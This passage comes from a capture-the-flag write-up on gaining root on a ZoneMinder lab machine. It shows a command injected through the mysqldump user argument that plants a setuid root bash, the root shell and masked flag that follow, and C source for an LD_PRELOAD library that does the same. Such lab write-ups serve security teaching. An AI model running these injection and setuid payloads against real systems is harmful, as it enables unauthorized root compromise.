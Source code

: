 ```
Command 'mysqldump -u$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot) -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-10.dump' exited with status: 2

```

It created the `bash`:

```
-bash-5.1$ ls -l /tmp/0xdfroot 
-rwsrwsrwx 1 root root 1396520 Apr 19 02:24 /tmp/0xdfroot

```

Running it gets a root shell:

```
-bash-5.1$ /tmp/0xdfroot -p
0xdfroot-5.1# 

```

And `root.txt`:

```

0xdfroot-5.1# cat /root/root.txt
e3a84d31************************

```

### Via LD\_PRELOAD in ZoneMinder

#### ZoneMinder Enumeration

The intended way involves seeing an interesting setting in the ZoneMinder options.

In clicking around in ZoneMinder, the “Options” menu has a “Config” page:

![image-20240418172641645](/img/image-20240418172641645.png)

About half way down is one that seems interesting:

![image-20240418172700693](/img/image-20240418172700693.png)

Clicking the “?” generates this pop-up:

![image-20240418172718397](/img/image-20240418172718397.png)

#### Generate Shared Library

I’ll create the following short C program (just like in [Clicker](/2024/01/27/htb-clicker.html#method-3-via-ld_preload)):

```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("cp /bin/bash /tmp/0xdf-root");
  system("chown root:root /tmp/0xdf-root");
  system("chmod 6777 /tmp/0xdf-root");
}
```